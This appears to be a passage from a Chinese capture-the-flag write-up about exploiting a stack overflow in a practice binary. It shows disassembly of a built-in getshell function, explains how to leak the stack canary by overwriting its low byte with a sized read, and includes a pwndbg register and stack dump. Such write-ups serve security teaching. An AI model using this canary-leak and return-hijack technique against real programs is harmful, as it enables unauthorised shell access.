 同时也发现程序中给了能直接 get shell 的函数
```asm
.text:0000000000000A3E getshell        proc near
.text:0000000000000A3E ; __unwind { .text:0000000000000A3E                 push    rbp
.text:0000000000000A3F                 mov     rbp, rsp
.text:0000000000000A42                 lea     rdi, command    ; "/bin/sh"
.text:0000000000000A49                 call    _system
.text:0000000000000A4E                 nop
.text:0000000000000A4F                 pop     rbp
.text:0000000000000A50                 retn
.text:0000000000000A50 ; } // starts at A3E
.text:0000000000000A50 getshell        endp
```
这样我们只要控制 rip 到该函数即可

#### leak canary
在第一次 read 之后紧接着就有一个输出, 而 read 并不会给输入的末尾加上 \0, 这就给了我们 leak 栈上内容的机会。

为了第二次溢出能控制返回地址, 我们选择 leak canary. 可以计算出第一次 read 需要的长度为 0x30 - 0x8 + 1 (+ 1 是为了覆盖 canary 的最低位为非 0 的值, printf 使用 %s 时, 遇到 \0 结束, 覆盖 canary 低位为非 0 值时, canary 就可以被 printf 打印出来了)

```asm
Breakpoint 1, 0x0000557c8443aa08 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7f1898a64690 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x30
 RDI  0x557c8443ab15 ◂— insb   byte ptr [rdi], dx /* 'Hello %s:\n' */
 RSI  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R9   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R10  0x37b
 R11  0x246
 R12  0x557c8443a830 ◂— xor    ebp, ebp
 R13  0x7ffd97aa0540 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
 RSP  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x557c8443aa08 ◂— call   0x557c8443a7e0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
 ► 0x557c8443aa08    call   0x557c8443a7e0

   0x557c8443aa0d    lea    rax, [rbp - 0x30]
   0x557c8443aa11    mov    edx, 0x60
   0x557c8443aa16    mov    rsi, rax
   0x557c8443aa19    mov    edi, 0
   0x557c8443aa1e    call   0x557c8443a7f0

   0x557c8443aa23    mov    eax, 0
   0x557c8443aa28    mov    rcx, qword ptr [rbp - 8]
   0x557c8443aa2c    xor    rcx, qword ptr fs:[0x28]
   0x557c8443aa35    je     0x557c8443aa3c

   0x557c8443aa37    call   0x557c8443a7c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsi rsp  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│          0x7ffd97aa0438 ◂— 0xb3012605fc402a61
06:0030│ rbp      0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
```